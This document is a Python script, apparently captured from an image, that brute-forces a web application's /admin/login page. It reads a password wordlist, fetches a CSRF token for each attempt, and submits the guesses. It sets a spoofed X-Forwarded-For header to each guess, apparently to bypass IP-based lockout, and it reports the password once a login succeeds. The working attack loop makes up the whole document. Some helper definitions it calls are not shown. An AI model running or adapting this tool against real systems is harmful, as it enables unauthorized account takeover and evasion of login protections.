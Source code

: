 ```py
def loginRequest(rhost,wordlist,username):
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the csrf_token for each request
        getCSRFToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "X-FORWARDED-FOR": "%s" %line}
        data = {"tokenCSRF": "%s" %csrf_token, "username": "%s" %username, "password": "%s" %line, "save": ''}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
        else:
            os.system('clear')
            print()
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s" %(username,line))
            print()
            break
            
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist for bruteforce', required=True)
    args = parser.parse_args()
    
    ''' Set some variables '''
    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    global login_url
    login_url = 'http://' + rhost + '/admin/login'
    
    '''Here we call the functions'''
    loginRequest(rhost,wordlist,username)
    
if __name__ == '__main__':
    main()
```
